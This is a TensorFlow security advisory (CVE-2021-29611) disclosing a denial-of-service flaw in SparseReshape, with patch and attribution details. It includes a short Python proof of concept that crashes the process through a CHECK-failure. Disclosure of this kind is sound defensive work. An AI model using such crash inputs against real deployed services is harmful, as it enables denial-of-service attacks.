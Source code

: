 ## TFSA-2021-098: Incomplete validation in `SparseReshape`

### CVE Number
CVE-2021-29611

### Impact
Incomplete validation in `SparseReshape` results in a denial of service based on
a `CHECK`-failure.

```python
import tensorflow as tf

input_indices = tf.constant(41, shape=[1, 1], dtype=tf.int64)
input_shape = tf.zeros([11], dtype=tf.int64)
new_shape = tf.zeros([1], dtype=tf.int64)

tf.raw_ops.SparseReshape(input_indices=input_indices,
    input_shape=input_shape,
    new_shape=new_shape)
```

The
[implementation](https://github.com/galeone/tensorflow/blob/e87b51ce05c3eb172065a6ea5f48415854223285/tensorflow/core/kernels/sparse_reshape_op.cc#L40)
has no validation that the input arguments specify a valid sparse tensor.

### Patches
We have patched the issue in GitHub commit
[1d04d7d93f4ed3854abf75d6b712d72c3f70d6b6](https://github.com/galeone/tensorflow/commit/1d04d7d93f4ed3854abf75d6b712d72c3f70d6b6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 and TensorFlow 2.3.3, as these are the only affected
versions.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
